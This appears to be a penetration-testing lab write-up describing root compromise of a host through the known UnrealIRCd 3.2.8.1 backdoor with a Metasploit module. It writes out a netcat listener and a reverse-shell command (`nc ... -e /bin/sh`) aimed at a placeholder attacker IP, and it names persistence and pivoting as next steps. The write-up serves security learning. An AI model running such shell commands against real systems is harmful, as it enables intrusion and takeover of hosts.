

# 💬 EXPLOIT: UnrealIRCd Backdoor (Root Shell)

## 🎯 Goal
Gain immediate root-level Remote Code Execution (RCE) on the target host by exploiting a well-known backdoor vulnerability in the UnrealIRCd service.

## 🛠️ Methodology
Due to Metasploit payload incompatibility, the exploit was performed using a combination of the Metasploit module and a manual Netcat listener, demonstrating fundamental exploitation techniques.

### Key Steps
1.  **Vulnerability:** UnrealIRCd version **3.2.8.1** contains a public backdoor.
2.  **Exploitation:** Used the `exploit/unix/irc/unreal_ircd_3281_backdoor` module with the highly compatible `cmd/unix/generic` payload.
3.  **Manual Listener:** A separate Netcat listener (`nc -lvnp 4444`) was used to receive the shell payload (`nc -nv <Kali_IP> 4444 -e /bin/sh`).

---

## 🔍 Key Findings (Immediate Root Compromise)

### 1. Privilege Level Achieved
The exploit executes with the highest available privileges on the system, granting the attacker full control immediately.

* **User Compromised:** **`root`** (Confirmed via `whoami` command in the shell).

### 2. Post-Exploitation Strategy
Since the shell is already root, the next steps involve **establishing persistence** (e.g., adding an SSH key) and **pivoting** to other systems on the network.

---
